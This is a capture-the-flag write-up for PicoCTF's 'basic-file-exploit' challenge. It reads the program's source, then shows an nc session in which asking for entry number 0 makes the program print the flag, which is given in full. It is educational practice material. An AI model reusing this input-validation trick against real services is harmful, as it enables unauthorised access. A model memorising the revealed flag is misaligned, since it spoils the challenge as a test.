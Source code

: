 ```yaml
---
title: "basic-file-exploit from PicoCTF"
categories: [PicoCTF]
tags: [PicoCTF]
---
```

# basic-file-exploit from PicoCTF
[page](https://play.picoctf.org/practice/challenge/252?page=9)


>  Description
> The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/141/program-redacted.c).

We download file : program-redacted.c

In this code we are searching in what condition we get the flag.

After analyzing we get that in this condition program prints the flag: 
```
 if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }
```
after this code we get that **entry_number** should be equal to 0 for program to give us Flag.
but according to code we cant go and give **entry_number** 0, first **entry_number** should exist so first we create it: 
```
giorgi@darkfears31:~/Desktop$ nc saturn.picoctf.net 52326
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
123
123
Please enter the length of your data:
123
123
Your entry number is: 1
```

So **entry_number** is created, after this we can tell program to
```
Type '2' to echo a phrase in our database
```

```
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}
```

Here we go the **flag** is:
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}
